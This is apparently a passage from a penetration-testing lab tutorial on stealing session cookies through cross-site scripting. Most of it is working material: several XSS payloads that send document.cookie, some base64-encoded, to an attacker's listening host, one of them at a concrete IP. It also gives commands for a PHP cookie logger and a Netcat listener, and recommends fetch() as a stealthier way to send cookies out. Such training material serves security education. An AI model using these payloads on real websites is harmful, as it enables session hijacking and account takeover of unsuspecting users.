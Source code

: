 This script waits for anyone to request ?c=+document.cookie, and it will then parse the included cookie.

The cookie-logging script can be run as follows. TUN Adapter IP is the tun interface's IP of either Pwnbox or your own VM.

```bash
php -S <VPN/TUN Adapter IP>:8000


PHP 7.4.21 Development Server (http://<VPN/TUN Adapter IP>:8000) started
```

Another possible payload:

```js
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
```

A sample HTTPS>HTTPS payload example can be found below:

```js
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

### Obtaining session cookies via XSS (Netcat)

Instead of a cookie-logging script, we could have also used the venerable Netcat tool.

```js
<h1 onmouseover='document.write(`<img src="http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

Or another possible payload:

```js
<body onload='document.write(`<img src="http://10.10.14.195:8000?cookie=${btoa(document.cookie)}">`);'> <h1>test</h1> </body>
```

```bash
nc -nlvp 8000


listening on [any] 8000 ...
```


By the time you hold your mouse over "test," you should now see the below in your attacking machine.

Please note that the cookie is a Base64 value because we used the btoa() function, which will base64 encode the cookie's value. We can decode it using atob("b64_string") in the Dev Console of Web Developer Tools.

We don't necessarily have to use the window.location() object that causes victims to get redirected. We can use fetch(), which can fetch data (cookies) and send it to our server without any redirects. This is a stealthier way.
